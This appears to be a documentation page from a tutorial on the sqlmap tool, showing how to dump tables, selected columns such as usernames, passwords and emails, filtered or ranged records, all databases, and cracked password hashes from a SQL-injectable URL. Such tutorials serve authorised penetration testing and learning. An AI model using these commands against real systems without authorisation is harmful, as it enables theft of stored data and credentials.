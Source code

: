 ```yaml
---
title: Data Extraction Techniques
description: Learn how to extract data from databases using SQLMap
---
```


After identifying the database structure, you can extract data from specific tables and columns of interest.

## Dumping Table Data (--dump)

To extract all data from a specific table:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name -T table_name --dump
```

This command retrieves all records from the specified table. For large tables, SQLMap will ask if you want to retrieve all entries or a subset.

## Dumping Specific Columns (-C)

To extract data from specific columns only:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name -T table_name -C "username,password,email" --dump
```

This is useful when you're only interested in certain columns, especially in tables with many columns or large amounts of data.

## Conditional Data Extraction (--where)

To extract records that match specific criteria:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name -T users -C "username,password" --dump --where "username='admin'"
```

This allows you to filter the data based on specific conditions, similar to a SQL WHERE clause.

## Extracting a Range of Records (--start and --stop)

For large tables, you can extract a specific range of records:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name -T users --dump --start 1 --stop 100
```

This retrieves only records 1 through 100, which is useful for paginating through large datasets.

## Dumping All Databases (--dump-all)

To extract data from all tables in all databases:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --dump-all
```


## Password Cracking (--passwords)

SQLMap can attempt to identify and crack password hashes:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --passwords
```

This command:
1. Identifies tables that might contain password hashes
2. Extracts the hashes
3. Attempts to crack them using a dictionary attack or brute force

You can also specify a custom wordlist with `--passwords-file=/path/to/wordlist.txt`.

## Optimizing Data Extraction

For large databases, consider these optimization techniques:

- Use `--threads` to speed up data extraction
- Use `--dump-format=CSV` to output data in a more manageable format
- Use `--binary-fields` to specify which fields contain binary data
- Use `--hex` to retrieve data in hexadecimal format for binary fields

These options can significantly improve the efficiency of data extraction, especially for large databases with complex data types.

